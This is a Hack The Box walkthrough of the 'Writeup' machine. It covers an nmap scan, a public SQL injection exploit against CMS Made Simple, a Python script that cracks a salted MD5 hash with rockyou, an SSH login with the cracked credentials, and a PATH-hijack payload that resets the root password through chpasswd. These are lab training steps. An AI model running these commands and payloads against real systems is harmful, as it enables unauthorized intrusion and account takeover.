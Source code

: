 # Writeup (HACK THE BOX)

Hey guys today we will be doing Writeup from HackTheBox :) <br/>
<picturelogo>
<br/>

## Nmap Scan
```
[sarthak@sarthak ~]$ nmap -sV 10.10.10.138 -v -Pn
Starting Nmap 7.70 ( https://nmap.org ) at 2019-06-13 07:07 IST
NSE: Loaded 43 scripts for scanning.
Initiating Parallel DNS resolution of 1 host. at 07:07
Completed Parallel DNS resolution of 1 host. at 07:07, 0.01s elapsed
Initiating Connect Scan at 07:07
Scanning 10.10.10.138 [1000 ports]
Discovered open port 80/tcp on 10.10.10.138
Discovered open port 22/tcp on 10.10.10.138
Completed Connect Scan at 07:07, 23.64s elapsed (1000 total ports)
Initiating Service scan at 07:07
Scanning 2 services on 10.10.10.138
Completed Service scan at 07:08, 6.72s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.10.138.
Initiating NSE at 07:08
Completed NSE at 07:08, 1.27s elapsed
Initiating NSE at 07:08
Completed NSE at 07:08, 0.00s elapsed
Nmap scan report for 10.10.10.138
Host is up (0.31s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 33.08 seconds

```
<br/>

Two services are running ..let's enumerate apache(port 80)

## Enumerating Web Server

<picture 009>
<br/>
According to the message we can see there's a dos protection waf is working which will an every ip which triggers 40x apache codes...<br/>

So rather than using dirb,gobuster,etc ...we will use burp to spider the domain ..
<br/>
<picture 010>
<br/>
Now we got a new directory named 'writeup' and i am using a really awesome extension named 'wappalyzer' which helped me to find that this directory has **cms made simple** installed...
<br/>
<picture 011>
<br/>

Now i found a blind time based sql injection whose exploit code is available 
 - [here](https://www.exploit-db.com/exploits/46635)

<br/>
<picture 007>
<br/>

```
python2 exp.py -u http://10.10.10.138/writeup/
```

I extracted the decrypt logic from the exploit and saw that before converting to md5 we have to concat it with salt so the final exploit code i created for finding password is
<br/>

```python
import hashlib

def crack_password():
    password="62def4866937f08cc13bab43bb14e6f7"
    output=""
    wordlist="rockyou.txt"
    salt="5a599ef579066807"
    dict = open(wordlist)
    for line in dict.readlines():
        line = line.replace("\n", "")
        #print(line)
        if hashlib.md5(str(salt) + line).hexdigest() == password:
            output += "\n[+] Password cracked: " + line
            print(output)
            break
    dict.close()


crack_password()
```

<br/>
The password extracted from the wordlist was :- *raykayjay9*

## Logging into ssh

So now we have credentials
 - username:- *jkr*
 - password:- *raykayjay9*
<br/> 
<picture 012>
<br/>

## Privesc 

Downloading pspy64 to snoop on processes
<br/>
<picture 013>
<br/>

Now if a user logged in by ssh we will see some commands being executed in the server which can be seen by pspy64 binary output
<br/>
<picture 014>
<br/>
The command was ...

```
sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new
```

if we break this command into chunks and try to understand what it's doing is setting up the PATH variable in which we can see `/usr/local/sbin` was at top which means it will be given highest priority while looking for any binary by the operating system so... 

```
run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new
```

we can see `run-parts` is being executed and if we check the permissions of `/usr/local/sbin` we will notice that..

<br/>
<picture 015>
<br/>
our user is in the same group as of `/usr/local/sbin` so that means we can write stuff inside the `sbin` folder, So we will write a binary in /tmp folder with our malicious payload and give it permissions to execute and will copy it to the `sbin` folder...
<br/>
The payload will be..

```bash
#!/bin/bash
echo "root:pwned@123"|chpasswd
```

This will change the password of root to `pwned@123` so let's try this...
<br/>
<picture 016>
<br/>
Now we have copied the payload let's quickly log out and login back to ssh and test the credentials...
<br/>
<picture 017>
<br/>

And we rooted this box ...interesting machine it was,<br/>
<br/>
<meme>
<br/>  
If you guys liked this writeup of writeup lol stay tuned :)

